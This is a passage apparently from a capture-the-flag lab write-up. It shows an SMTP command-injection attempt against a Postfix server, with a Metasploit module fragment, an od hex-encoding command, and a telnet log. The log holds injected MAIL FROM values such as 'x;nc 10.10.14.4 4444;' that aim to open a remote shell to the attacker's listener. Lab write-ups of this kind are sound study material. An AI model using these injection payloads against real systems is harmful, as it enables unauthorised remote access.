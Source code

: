 ```ruby
	"msg=setalerts\n"
sock.put(msg)

# next, the test email command
print_status("Sending 'testemail' request to trigger execution...")
msg = "msg=testemail\n"
sock.put(msg)
```

Ok, so maybe I can telnet to the smtp server, and try sending an email with a malformed FROM address. Specifically, I'll send it from ``x;nc 10.10.14.4 4444; `` (after setting up a netcat listener on my attacker machine). If we get a response, it worked.

Hmm, looks like it won't be quite that easy:

```
MAIL FROM:hplip;nc 10.10.14.4 4444;
501 5.1.7 Bad sender address syntax
```

The original exploit `linux/remote/16837.rb` looks like it's encoding the payload. I used ``od`` to encode mine:

```bash
echo -n "nc 10.10.14.4 4444" | od -A n -t x1 | sed 's/ /\\x/g'
```

These were the responses to my various attempts:

```
Connected to 10.10.11.166.
Escape character is '^]'.
220 debian.localdomain ESMTP Postfix (Debian/GNU)
500 5.5.2 Error: bad syntax
MAIL FROM:root;nc 10.10.14.4 4444;\n
501 5.1.7 Bad sender address syntax
MAIL FROM:root;nc 10.10.14.4 4444;
501 5.1.7 Bad sender address syntax
MAIL FROM:root;\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x34\x2e\x34\x20\x34\x34
\x34\x34501 5.1.7 Bad sender address syntax
MAIL FROM:root;\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x34\x2e\x34\x20\x34\x34;\n
501 5.1.7 Bad sender address syntax
MAIL FROM:root;id;
501 5.1.7 Bad sender address syntax
MAIL FROM:root;id;\n
501 5.1.7 Bad sender address syntax
MAIL FROM:<root;id;>
501 5.1.7 Bad sender address syntax
MAIL FROM:<root;id;\n>
501 5.1.7 Bad sender address syntax
MAIL FROM:<root;;>
250 2.1.0 Ok
QUIT
221 2.0.0 Bye
Connection closed by foreign host.

```
